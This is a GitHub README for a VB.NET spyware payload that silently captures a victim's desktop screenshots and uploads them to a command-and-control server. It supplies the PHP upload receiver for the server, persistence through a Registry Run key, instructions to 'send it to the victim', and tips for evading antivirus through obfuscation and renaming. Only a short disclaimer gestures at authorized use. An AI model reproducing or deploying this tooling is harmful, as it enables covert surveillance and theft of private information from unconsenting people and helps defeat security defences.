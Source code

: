 [![forthebadge](https://forthebadge.com/images/badges/built-with-swag.svg)](https://forthebadge.com)

<p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Payload | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs and Less Detection ;)
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and the edit below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```
 - and edit this variable below as well
```
Dim php As String = "yourphpfilename.php?" & "folder="
```
 - Just compile it and send it to the victim thats all !!
 
 ## Million Dollar Advice ;)
 To Avoid Antivirus Detection
 
 - Change the app icon
 - Generate new GUID 
 - Changes all the variables
 - Obfuscate the code using [Obfuscar](https://github.com/obfuscar/obfuscar)
 - Change the Assembly information 
 
 ## Donation:
 If this tool has been useful for you, feel free to thank me by buying me a coffee :)

[![N|Solid](https://i.ibb.co/Sym2mzn/buymeacoffee.png)](https://www.buymeacoffee.com/mrfrost) 
 
 ## Disclaimer:
**This tool is supposed to be used only on authorized systems. Any unauthorized use of this tool without explicit permission is illegal.**

## License:
 [**GNU GENERAL PUBLIC LICENSE**](https://github.com/mrfr05t/Mr.Peter/blob/master/LICENSE) 
 
 
